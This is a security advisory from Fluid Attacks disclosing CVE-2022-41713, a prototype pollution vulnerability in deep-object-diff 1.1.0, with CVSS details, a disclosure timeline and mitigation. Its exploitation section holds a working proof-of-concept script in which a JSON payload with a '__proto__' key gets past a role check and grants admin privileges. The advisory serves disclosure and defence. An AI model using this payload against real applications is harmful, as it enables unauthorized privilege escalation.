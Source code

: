 ```yaml
---
slug: advisories/heldens/
title: deep-object-diff 1.1.0 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: heldens
product: deep-object-diff 1.1.0 - Prototype Pollution
date: 2022-11-15 09:00 COT
cveid: CVE-2022-41713
severity: 7.3
description: deep-object-diff 1.1.0    -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Deep Object Diff, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | deep-object-diff 1.1.0 - Prototype Pollution                       |
| **Code name**         | [Heldens](https://en.wikipedia.org/wiki/Oliver_Heldens)            |
| **Product**           | deep-object-diff                                                   |
| **Affected versions** | Version 1.1.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-15                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41713](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41713)                                             |

## Description

Version 1.1.0 of deep-object-diff allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not properly validate incoming JSON keys, thus allowing
the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript first
checks if such a method/attribute exists in the object. If so, then it calls
it. If not, it looks in the object's prototype. If the method/attribute is
also not in the object's prototype, then the property is said to be
undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into
an object, he will succeed in injecting or editing its properties.

## Exploitation

### exploit.js

```js
import { diff, addedDiff, deletedDiff, updatedDiff, detailedDiff } from 'deep-object-diff';

let admin = {name: "admin", role:"admin"};
let user  = {role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = addedDiff(user, new_user);
    console.log(user?.role);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196747198-91fb55a2-b8b7-4858-8167-2a5dc7c1053c.png)

## Our security policy

We have reserved the CVE-2022-41713 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: deep-object-diff 1.1.0

* Operating System: GNU/Linux

## Mitigation

An updated version of deep-object-diff is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/mattphillips/deep-object-diff>

**Issue** <https://github.com/mattphillips/deep-object-diff/issues/85>

## Timeline

<time-lapse
  discovered="2022-10-05"
  contacted="2022-10-05"
  replied="2022-10-05"
  confirmed="2022-10-05"
  patched="2022-11-12"
  disclosure="2022-11-15">
</time-lapse>
